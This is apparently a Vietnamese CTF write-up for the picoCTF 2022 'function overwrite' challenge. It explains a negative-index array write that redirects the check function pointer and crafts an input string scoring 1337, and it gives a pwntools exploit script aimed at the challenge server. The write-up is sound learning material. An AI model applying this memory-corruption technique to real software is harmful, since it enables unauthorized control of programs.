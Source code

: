 # tìm lỗi
ta nhìn vào hàm vuln()
```c
void vuln()
{
  char story[128];
  int num1, num2;
 
  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);
 
  if (num1 < 10)
  {
    fun[num1] += num2;
  }
 
  check(story, strlen(story));
}
```
chương trình cho ta nhập số âm, nên chúng ta sẽ thay đổi giá trị 'check' trỏ đến địa chi hàm easy_checker()

# thực thi
ta có ```0x804c040 <check>``` và ```0x804c080 <fun>```
```c
>>> (0x804c080 - 0x804c040)/4
16.0
>>> hex(0x804c080 + (-16)*4)
'0x804c040'
```
Nếu ta nhập -16 cho num1 làm cho fun[num1] trỏ đến check

tiếp đến ta sẽ chuyển địa chỉ hàm hard_checker() về easy_checker()

```c
>>> 0x8049436 - 0x80492fc
314
>>> hex(0x8049436 + (-314))
'0x80492fc'
```

# stage 2
tiếp đến hàm calculate_story_score()  sẽ tính điểm như sau nếu ta nhập "AAAABBBB"
```c
>>> score = ord('A')*4 + ord('B')*4
>>> score
524
```
ta cần nhập chuỗi sao cho = 1337, và các byte cần bé hơn 0x7f
```
>>> hex(int(1337 / 5))
'0x10b'
>>> hex(int(1337 / 10))
'0x85'
>>> hex(int(1337 / 15))
'0x59'
>>> hex(int(1337 / 20))
'0x42'
>>> 20*0x42
1320
1320 + 0x11
```

```python
from pwn import *
p = connect('saturn.picoctf.net', 56083)
 
payload = b'B'*20 + b'\x11'
p.sendlineafter(b're a 1337 >> ', payload)
payload = b"-16 -314"
p.sendlineafter(b'rst one less than 10.', payload)
 
p.interactive()
```
### Đọc thêm
[wu-kcsc](https://kcsctrainingwriteup.wordpress.com/2022/03/22/picoctf-2022-function-overwrite/)
